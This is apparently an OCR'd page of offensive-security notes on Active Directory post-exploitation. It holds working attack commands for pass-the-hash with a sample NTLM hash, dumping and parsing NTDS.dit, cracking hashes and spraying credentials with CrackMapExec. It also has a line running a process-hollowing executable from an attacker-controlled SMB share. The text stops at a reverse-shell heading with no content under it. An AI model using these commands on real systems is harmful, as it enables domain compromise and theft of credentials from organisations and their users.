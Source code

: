     //After Compromising DC, get SYSTEM shell on remaining targets:
        load kiwi
        creds_all
        //ex. PTH as domain admin to CLIENT09:
            proxychains wmiexec.py TRICKY.COM/Administrator@172.16.173.155 -hashes aad3b435b51404eeaad3b435b51404ee:48989de6a73f952ad51adceabc13cc9c
            reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f
            \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe

    //NTDS.dit:
        //Recon:
            //MSF:  use post/windows/gather/ntds_location; set session 1; exploit
        //Dump & Parse:
            //Local:
                fgdump.exe
                powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
                NTDSDumpEx.exe -d C:\ntds.dit -s C:\SYSTEM
            //Remote:
                //CME:
                    crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --ntds drsuapi
                //MSF:
                    use auxiliary/scanner/smb/impacket/secretsdump; set rhosts 192.168.1.108; set smbuser administrator; set smbpass Ignite@987; exploit
        //Dump:
            //MSF:
                use post/windows/gather/ntds_grabber; set session 1; exploit
                cabextract <cab filename>
        //Parse:
            secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL

        //Crack:
            john --format=NT hash

#### Credential Spraying

    //Check Lockout Policy (if user has DC access):
        cme smb 192.168.189.132 -u bob -p 'abc123!' [--local-auth] --pass-pol
        net accounts /domain
        Get-ADDefaultDomainPasswordPolicy

    //Get Users:
        ex. GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/log/GetADUsers.out

    //Spray:
        //CrackMapExec:
            //check local and domain - detects local auth or domain automatically, but to specify a different domain for auth:  -d domain
            --continue-on-success to check all combos
            --local-auth for local auth on a domain box
            -p for pass, -H for hash
            //Local Auth:
                proxychains -q crackmapexec smb 172.16.177.0/24 -u 'Administrator' -H /tmp/hashes.txt --local-auth
            //SMB: proxychains -q crackmapexec smb 172.16.177.254 -u /tmp/users.txt -H /tmp/hashes.txt
            //Winrm:  proxychains -q crackmapexec winrm 172.16.177.254 -u /tmp/users.txt -H /tmp/hashes.txt
            //RDP:  proxychains -q crackmapexec rdp 172.16.177.254 -u /tmp/users.txt -p /tmp/pass.txt
            //Kerberos:
                export KRB5CCNAME=...
                //add DChostname to /etc/hosts
                proxychains -q crackmapexec smb 172.16.177.0/24 -k --use-kcache --kdcHost <DChostname>
        //RCE:
            -x switch to execute commands from cmd.exe or the -X switch to perform commands using PowerShell
            ex. -x "ping -n 2 192.168.49.121"
            //Reverse Shell example w/ Nishang: